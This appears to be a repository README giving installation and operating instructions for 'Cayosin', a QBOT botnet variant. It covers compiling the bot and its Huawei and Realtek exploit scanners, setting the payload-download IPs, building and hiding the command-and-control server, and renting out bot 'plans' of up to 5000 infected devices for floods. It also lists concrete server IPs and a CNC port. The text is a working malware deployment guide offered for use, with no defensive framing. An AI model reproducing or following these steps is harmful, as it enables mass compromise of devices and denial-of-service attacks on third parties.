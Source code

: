 cayosin QBOT botnet variant. tested and working on centos 6, 6.9 and 7.7.

installation / setup guide:

yum update -y; yum install wget python gcc nano screen httpd php -y; service httpd start; ulimit -n 999999

nano /usr/include/bits/typesizes.h

if '#define __FD_SETSIZE' is set to 1024, change it to 99999, otherwise CTRL + X to quit

change ips in:
- /bot/main.c
- /bot/huawei_scanner.c search for 'wget'
- /bot/realtek... .c search for 'wget'
- /CayosinCNC.c look for iplookup and change the ip there

gcc bot/*.c -o bp -pthread; python Cayosin.py fff 179.43.154.140  cayosin; rm -rf bot; mv iplookup.php /var/www/html

make sure to save the payload

gcc -o cnc CayosinCNC.c -pthread; rm -rf CayosinCNC.c; rm -rf Cayosin.py; rm -rf cross-compiler-*

*You have the ability to make each account admin/superadmin/common.
"admin" Gives the ability to add/kick users and force unmute all clients. 
"superadmin" Gives all regular admin abilities, as well as IP Ban/Unban.
"common" Only allows the sending of floods, use of Tools and Server Commands.

*You must also select their bot plan.
"noob" gives control over 0 bots
"plan1" gives control over 100 bots
"plan2" gives control over 1000 bots
"plan3" gives control over 5000 bots
"all" gives them control over all bots

And their Plan Expiry Date (Format: 00/00/0000) (day/month/year)

nano logins.txt

YOUR_USERNAME YOUR_PASSWORD superadmin all 30/12/9999

screen ./cnc 420 850

hold down CTRL, then hold down A and then press D

CNC port = 65525

telnet 133.70.150.140 65525

with putty you have to use 'RAW'

cmd to add a user:

adduser spotuser spotpass superadmin all 13/04/2022
